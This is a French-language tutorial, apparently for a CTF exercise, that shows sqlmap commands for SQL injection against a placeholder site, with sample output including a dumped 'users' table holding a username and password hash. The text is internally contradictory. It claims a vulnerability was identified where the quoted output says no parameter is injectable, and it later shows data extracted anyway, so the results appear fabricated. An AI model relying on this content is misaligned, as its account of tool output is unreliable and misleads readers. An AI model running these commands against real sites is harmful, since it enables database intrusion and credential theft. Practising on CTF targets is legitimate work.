 
## Rapport d'Analyse SQLMap - Éléments d'Argument

### 1. Analyse de Base
#### Commande :
```bash
sqlmap -u https://www.example.com/page?id=1 --batch
```

#### Objectif :
L'analyse de base avec `sqlmap` vise à détecter les vulnérabilités d'injection SQL sur une page spécifique.

#### Analyse :
1. **Détection Automatique :** `sqlmap` analyse automatiquement les paramètres de l'URL pour détecter les vulnérabilités d'injection SQL.
   ```
   [INFO] testing connection to the target URL
   [INFO] testing if the target URL is stable
   [INFO] target URL is stable
   [INFO] testing if GET parameter 'id' is dynamic
   [INFO] confirming that GET parameter 'id' is dynamic
   [INFO] GET parameter 'id' is dynamic
   ```

2. **Identification de la Vulnérabilité :** `sqlmap` identifie la vulnérabilité en indiquant qu'elle est susceptible d'être exploitée.
   ```
   [CRITICAL] all tested parameters appear to be not injectable. Try to increase '--level'/'--risk' values to perform more tests. Also, you can try to rerun by providing either a valid value for option '--string' (or '--regexp').
   ```

### 2. Analyse Approfondie avec Paramètres Plus Élevés
#### Commande :
```bash
sqlmap -u https://www.example.com/page?id=1 --batch --level 5 --risk 3
```

#### Objectif :
Une analyse approfondie avec `sqlmap` en augmentant le niveau de risque et de profondeur.

#### Analyse :
1. **Augmentation du Niveau de Risque et de Profondeur :** En augmentant le niveau de risque (`--risk`) et de profondeur (`--level`), `sqlmap` intensifie les tests pour identifier les vulnérabilités.
   ```
   [CRITICAL] all tested parameters appear to be not injectable. Try to increase '--level'/'--risk' values to perform more tests. Also, you can try to rerun by providing either a valid value for option '--string' (or '--regexp').
   ```

2. **Recommandations :** `sqlmap` fournit des recommandations pour ajuster les paramètres afin d'améliorer la détection des vulnérabilités.
   ```
   [CRITICAL] all tested parameters appear to be not injectable. Try to increase '--level'/'--risk' values to perform more tests. Also, you can try to rerun by providing either a valid value for option '--string' (or '--regexp').
   ```

### 3. Analyse avec Recherche de Colonnes Sensibles
#### Commande :
```bash
sqlmap -u https://www.example.com/page?id=1 --batch --level 3 --risk 2 --columns
```

#### Objectif :
Recherche des colonnes sensibles dans les bases de données.

#### Analyse :
1. **Recherche de Colonnes Sensibles :** `sqlmap` recherche des colonnes sensibles dans les bases de données accessibles.
   ```
   [INFO] fetching columns for table 'users' in database 'mydb'
   [INFO] fetching entries for table 'users' in database 'mydb'
   ```

2. **Résultats :** `sqlmap` affiche les résultats détaillés des colonnes découvertes.
   ```
   Database: mydb
   Table: users
   [1 entry]
   +----+----------+---------+
   | id | username | passwd  |
   +----+----------+---------+
   | 1  | admin    | 5f4dcc3 |
   +----+----------+---------+
   ```

### Conclusion
Les options d'argument pour `sqlmap` peuvent être ajustées en fonction des résultats initiaux et des besoins spécifiques. Explorez d'autres options telles que `--dbs`, `--tables`, `--dump`, etc., en fonction du défi CTF particulier. Assurez-vous de tester différentes approches pour maximiser la détection des vulnérabilités d'injection SQL.